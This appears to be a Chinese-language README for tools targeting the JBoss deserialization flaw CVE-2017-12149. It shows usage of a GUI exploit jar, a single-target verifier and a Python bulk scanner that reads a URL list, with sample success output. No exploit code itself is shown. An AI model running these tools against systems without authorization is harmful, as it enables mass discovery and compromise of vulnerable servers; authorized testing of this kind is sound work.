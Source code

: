 # 
1.jboss反序列化_CVE-2017-12149.jar GUI
jboss-_CVE-2017-12149

#referer:https://github.com/yunxu1/jboss-_CVE-2017-12149

2.漏洞验证
verify_CVE-2017-12149.jar提供命令行模式下验证漏洞,如果漏洞存在返回特征字符串,只需要执行命令:

```shell/cmd
$ java -jar verify_CVE-2017-12149.jar http://xxx:8080

#成功返回:
vuln6581362514513155613jboss
```
#referer:https://github.com/yunxu1/jboss-_CVE-2017-12149

3.批量验证漏洞(支持http/https协议)
```shell/cmd
$ python Jboss-cve201712149-pl.py urllist.txt
```
urllist.txt-format:
http://1.1.1.1:8080
```
#成功返回:
```
http://192.168.1.10:8080/invoker/readonly maybe use HttpInvoker!  
http://192.168.1.10:8080 is  Vul-Jboss-cve-2017-12149! 

```
ps：py运行需要安装requests 库
pip install requests
